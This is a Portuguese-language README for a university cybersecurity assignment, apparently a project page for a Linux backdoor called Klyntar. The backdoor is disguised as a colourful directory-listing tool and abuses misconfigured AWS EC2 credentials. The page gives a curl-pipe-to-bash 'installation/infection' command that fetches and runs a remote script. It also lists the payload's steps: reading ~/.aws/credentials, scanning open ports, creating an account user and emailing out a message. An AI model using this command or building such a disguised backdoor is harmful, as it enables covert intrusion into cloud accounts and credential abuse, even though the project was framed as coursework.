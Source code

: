 <!-- PROJECT LOGO -->

<p align="center">
    <img src="doc/images/venom_0c44_360x640.jpg" alt="Logo" width="230" height="400">
  <p align="center">
    Trabalho da disciplina de Cybersecurity para criação de um vírus que explora vulnerabilidade de credenciais mal configuradas em servidores AWS EC2. 
  </p>
</p>

## O desafio! 

Elaborar um vírus da categoria back door que possibilite a execução remota de ações no sistema operacional hospedeiro (Linux).

## O disfarce

O programa se disfarça como uma simples ferramenta de linha de comando para mostrar os diretórios de forma colorida no terminal :smile:.

## Porque Klyntar?

O simbionte Venom personagem da Marvel nem sempre foi o inimigo do Homem-Aranha ou um item de seu guarda-roupa. Sua origem está associada a um longínquo planeta na galáxia de Andrômeda, chamado *Klyntar*. Venom é um membro de uma raça alienígena de simbiontes que recebem o mesmo nome de seu planeta natal.

## Instalação/Infecção

``` bash
curl -L https://raw.githubusercontent.com/gabriel-dantas98/klyntar/master/install.sh | bash
```

## Por trás dos panos 

 - Verifica se existe ~/.aws/credentials;
 - Scaneia todas as portas que estão abertas no host;
 - Cria uma usuário na conta que a instância tem permissão;
 - Cria uma mensagem e envia por e-mail;
